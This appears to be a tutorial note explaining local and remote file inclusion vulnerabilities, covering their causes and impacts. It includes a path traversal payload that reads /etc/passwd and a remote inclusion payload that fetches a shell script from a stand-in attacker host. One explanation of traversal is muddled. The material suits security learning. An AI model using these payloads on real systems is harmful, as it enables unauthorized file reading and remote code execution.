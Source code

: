 
### **How File Inclusion Vulnerabilities Occur**

1. **Improper Input Validation**:
    
    - **Problem**: When file paths are constructed using unsanitized user input.
    - **Effect**: Allows attackers to manipulate the input to include unintended files.
2. **Lack of Access Controls**:
    
    - **Problem**: Absence of proper restrictions on directories or file access.
    - **Effect**: Attackers can access sensitive files like configurations or logs.

---

### **Categories of File Inclusion Vulnerabilities**

#### **Local File Inclusion (LFI)**

- **What it is**: Exploiting the inclusion mechanism to load files already on the server.
- **Impact**:
    - **Information Disclosure**: Reading sensitive files like `/etc/passwd`.
    - **Server-Side Code Execution**: Including log files containing malicious payloads.
    - **Privilege Escalation**: Accessing configuration files with admin credentials.

**Example Payload**:

```php
http://example.com/index.php?file=../../../../etc/passwd
```

**Why it works**:

- The `file` parameter is used to include files without validation.
- Using `../` (path traversal), the attacker navigates to `/etc/passwd`.
- Works also because the idea is that the root directory is an etc folder, so we can add as many ../ as we can to get to the etc folder which will have access to the passwd if it exists.

---

#### **Remote File Inclusion (RFI)**

- **What it is**: Exploiting the inclusion mechanism to load files from external URLs.
- **Impact**:
    - **Remote Code Execution**: Running attacker-hosted malicious scripts.
    - **Data Theft**: Exposing sensitive application data to attackers.

**Example Payload**:

```php
http://example.com/index.php?file=http://malicious.com/shell.php
```

**Why it works**:

- The application allows URL-based file inclusion without validation.
- The malicious script hosted at `malicious.com` is included and executed.

---

